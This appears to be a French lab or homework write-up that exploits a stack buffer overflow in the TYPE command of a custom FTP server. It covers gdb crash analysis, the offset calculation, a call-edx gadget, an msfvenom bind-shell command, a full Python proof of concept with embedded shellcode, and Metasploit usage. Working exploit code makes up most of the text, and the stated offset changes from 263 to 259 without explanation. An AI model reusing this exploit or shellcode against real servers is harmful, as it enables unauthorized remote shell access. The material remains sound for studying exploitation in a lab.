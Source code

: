 # TATT - DM3

On peut lancer le serveur FTP avec gdb : 

```bash
sudo gdb ./my_ftpd
set follow-fork-mode child
run -u users.txt -v 3 -l log.txt
```

Pour le lancer normalement, on peut utiliser la commande suivante :

```bash
sudo ./my_ftpd -u users.txt -v 3 -l log.txt
```

---

Les erreurs intéressants : 

```
STOR {A * 100}
TYPE {A * 500,1000,2000,5000} -> la plus intéresssante
```

---

On test avec des cyclic pattern de 500 car c'est la taille la plus petite qui crash le programme, on voit avec la backtrace que la première valeur que nous controlons est en position 60 de la backtrace, on peut donc se douter que l'offset est aux alentours des 500 - (59 * 4) = 264.

Avec gdb, on trouve que l'offset exact est 263

```bash
msf-pattern_offset -q 0x69413669
[*] Exact match at offset 259
```

Lors du crash on a :

```bash
(gdb) info registers
eax 0x0 0
ecx 0x0 0
edx 0xbffff2f9 -1073745159
ebx 0x0 0
esp 0xbffff400 0xbffff400
ebp 0x41356941 0x41356941
esi 0x804c990 134531472
edi 0xb7ffeb80 -1207964800
eip 0x69413669 0x69413669
eflags 0x10202 [ IF RF ]
cs 0x73 115
ss 0x7b 123
ds 0x7b 123
es 0x7b 123
fs 0x0 0
gs 0x33 51
(gdb) x/20x $esp
0xbffff400: 0x00000000 0x080520d0 0x00000000 0x00000000
0xbffff410: 0x08052058 0x00000000 0x08052048 0x00000003
0xbffff420: 0x08052050 0xb7ffeb80 0xbffff458 0x0804c654
0xbffff430: 0x0804f1c4 0x0804f1a0 0x08052050 0xb7e8ff3a
0xbffff440: 0x08051ad0 0x0804d435 0xb7e634c9 0x08051c40
(gdb) x/100 $edx
0xbffff2f9: 0x41306141 0x61413161 0x33614132 0x41346141
0xbffff309: 0x61413561 0x37614136 0x41386141 0x62413961
...
```

On voit que edx pointe sur le buffer contenant le payload, on peut donc utiliser edx pour écrire notre shellcode.

On trouve des instructions dans le binaire nous permettant de sauter à l'adresse de notre shellcode :

```bash
objdump -d my_ftpd | grep -E "(call.*edx|jmp.*edx)"
 80493c2:	ff d2                	call   *%edx
 804b0ca:	ff d2                	call   *%edx
 804b5ed:	ff d2                	call   *%edx
 804c652:	ff d2                	call   *%edx
```

Il est important que le shellcode doit être assez court pour ne pas dépasser sur l'adresse de retour : 

```
[SHELLCODE] + [PADDING] + [ADRESSE_RETOUR]
    |              |           |
    |              |           +-- 4 octets (à l'offset 259)
    |              +-------------- PADDING pour atteindre 259 octets
    +----------------------------- SHELLCODE (doit faire < 259 octets)
```

Avec cette commande, on peut générer un shellcode de bind shell qui écoute sur le port 4444 :

```bash
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -b '\x00\x0a\x0d\x20' -f python
```

Le shellcode généré fait 105 octets, donc on peut l'utiliser directement.

Avec ce script on peut donc faire un POC d'un bind shell :

```python
#!/usr/bin/env python3
import socket
import struct

# Configuration
TARGET = "127.0.0.1"
PORT = 21

def create_exploit():
    # Adresse d'une instruction qui utilise EDX (À TROUVER avec objdump)
    # Exemple : si vous trouvez "call *%edx" à 0x08048xxx
    call_edx_addr = 0x80493c2

    # Shellcode simple bind shell (port 4444)
    # msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -b '\x00\x0a\x0d\x20' -f python
    shellcode =  b""
    shellcode += b"\xbb\xfe\xef\xf9\xda\xdb\xc1\xd9\x74\x24\xf4\x5e"
    shellcode += b"\x33\xc9\xb1\x14\x83\xee\xfc\x31\x5e\x10\x03\x5e"
    shellcode += b"\x10\x1c\x1a\xc8\x01\x17\x06\x78\xf5\x84\xa3\x7d"
    shellcode += b"\x70\xcb\x84\xe4\x4f\x8b\xbe\xb6\x1d\xe3\x42\x47"
    shellcode += b"\xb3\xaf\x28\x57\xe2\x1f\x24\xb6\x6e\xf9\x6e\xf4"
    shellcode += b"\xef\x8c\xce\x02\x43\x8a\x60\x6c\x6e\x12\xc3\xc1"
    shellcode += b"\x16\xdf\x44\xb2\x8e\xb5\x7b\xed\xfd\xc9\xcd\x74"
    shellcode += b"\x06\xa1\xe2\xa9\x85\x59\x95\x9a\x0b\xf0\x0b\x6c"
    shellcode += b"\x28\x52\x87\xe7\x4e\xe2\x2c\x35\x10"

    # Construction : shellcode + padding + adresse de retour
    offset = 259
    padding_size = offset - len(shellcode)

    if padding_size < 0:
        print("[-] Shellcode trop long !")
        return None

    exploit = shellcode + b"A" * padding_size + struct.pack("<I", call_edx_addr)
    return exploit

def send_exploit():
    print("[*] Création de l'exploit...")
    payload = create_exploit()

    if not payload:
        return

    print(f"[*] Taille payload: {len(payload)} octets")
    print("[*] Connexion au serveur FTP...")

    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(10)
        s.connect((TARGET, PORT))

        # Bannière
        banner = s.recv(1024)
        print(f"[+] {banner.decode().strip()}")

        # Auth
        s.send(b"USER test\r\n")
        resp = s.recv(1024)
        print(f"[+] {resp.decode().strip()}")

        s.send(b"PASS test\r\n")
        resp = s.recv(1024)
        print(f"[+] {resp.decode().strip()}")

        print("[*] Envoi de l'exploit...")
        s.send(b"TYPE " + payload + b"\r\n")

        print("[+] Exploit envoyé !")
        print("[*] Si bind shell: nc TARGET_IP 4444")

    except Exception as e:
        print(f"[-] Erreur: {e}")
    finally:
        try:
            s.close()
        except:
            pass

if __name__ == "__main__":
    print("=== POC Exploit TYPE buffer Overflow ===")
    print("[!] N'oubliez pas de remplacer call_edx_addr !")
    send_exploit()
```

Il ne reste plus qu'à écrire l'exploit en ruby pour Metasploit et à l'utiliser avec la msfconsole :

```bash
cp 2ftp_exploit.rb ~/.msf4/modules/exploits/linux/ftp/

# Lancer Metasploit
msfconsole

# Utiliser votre module
msf6 > use exploit/linux/ftp/2ftpexploit
msf6 exploit(linux/ftp/2ftpexploit) > show options

# Configuration
msf6 exploit(linux/ftp/2ftpexploit) > set RHOST 127.0.0.1
msf6 exploit(linux/ftp/2ftpexploit) > set FTPUSER test
msf6 exploit(linux/ftp/2ftpexploit) > set FTPPASS test

# Choisir un payload
msf6 exploit(linux/ftp/2ftpexploit) > set PAYLOAD linux/x86/shell_bind_tcp
msf6 exploit(linux/ftp/2ftpexploit) > set LPORT 4444

# Lancer l'exploit
msf6 exploit(linux/ftp/2ftpexploit) > exploit

# Si succès, vous devriez obtenir un shell
```